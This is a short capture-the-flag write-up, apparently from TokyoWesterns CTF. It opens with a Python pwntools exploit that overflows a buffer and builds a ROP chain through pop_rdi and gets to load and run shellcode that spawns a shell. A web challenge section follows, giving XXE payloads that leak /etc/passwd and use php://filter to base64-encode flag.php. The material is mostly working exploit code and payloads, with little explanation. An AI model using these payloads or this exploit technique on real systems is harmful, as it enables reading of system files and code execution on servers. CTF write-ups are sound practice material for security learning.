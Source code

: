 ```python
def gdb_attach(*args, **kwargs):
    if DEBUG:
        orig_attach(*args, **kwargs)
gdb.attach = gdb_attach


def main():
    # Your exploit script goes here
    p.ru(':)\n')
    pop_rdi = 0x400773
    gets = 0x400580

    ropchain = p64(pop_rdi)
    ropchain += p64(0x601090)
    ropchain += p64(gets)
    ropchain += p64(0x601090)

    payload = 'a' * 0x108 + ropchain

    shellcode = shellcraft.sh()
    gdb.attach(p)
    p.sl(payload)
    p.sl(asm(shellcode))
    p.irt()

if __name__ == '__main__':
    main()


```

## j2x2j (Web, Warmup) 59pt

URL: http://j2x2j.chal.ctf.westerns.tokyo/

Basically, it is a converter service for JSON

we were able to leak the `/etc/passwd` file by using XXE vulnerability

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Since it is PHP, we can RFI using `php://` and arbitrarily load a file we want. For this challenge, we used `php://filter` to base64-encode the flag.php file.

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
